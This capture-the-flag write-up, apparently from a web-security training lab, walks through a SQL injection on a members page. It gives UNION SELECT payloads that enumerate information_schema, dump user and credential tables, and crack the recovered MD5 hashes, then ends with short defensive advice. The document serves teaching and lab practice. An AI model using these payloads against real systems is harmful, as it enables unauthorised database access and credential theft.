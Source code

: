 # SQL Injection in Members Area

### Tools
SQL injections list from:https://github.com/payloadbox/sql-injection-payload-list

SQL UNION ATACK guide: https://charlesreid1.com/wiki/SQL_Injection/UNION_Attack
Since we are not allowed to use automated tools like sqlmap.

### How to solve it

1. Firt run multiple sql injetion untill something happens using : 
```
 1 UNION SELECT NULL,NULL
```
2. Later on we try multiple commands and we findout some stuff, member 5 has a Flag inside it, but we couldn't found any password or user info .
```
 5 UNION SELECT TABLE_NAME,NULL FROM information_schema.tables--
```
3. With this command we get a list with all schemas and tables and their columns searching for some words we found password and user columns on db_default .
```
 5 union select table_name, table_schema from information_schema.columns 
 5 UNION SELECT TABLE_NAME,COLUMN_NAME FROM information_schema.columns-- 
```
4. Now we try to access users table to get users info and we get this  Decrypt this password -> then lower all the char. Sh256 on it and it's good !: 5ff9d0165b4f92b14994e5c685cdce28 cracking it we get :		FortyTwo. and lowering it to fortytwo and using Sh256 we get 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```
 5 union SELECT town, countersign FROM Member_Sql_Injection.users
```
5. Now we try to access users table to get db_default info and we found this : root : 3bf1114a986ba87ed28fc1b5884fc2f8 cracking it we get :shadow.
```
 5 union SELECT username,password FROM Member_Brute_Force.db_default
```
### How to protect
 - use ORM system
 - Input Validation like restricting input size, and if the data is a name it doesnt have to contain numbers  and if the data is a number we could block string from it.
 - Sanitize user input by checking some chars in the input and exchanging it so the SQL doesn't interpeter these.
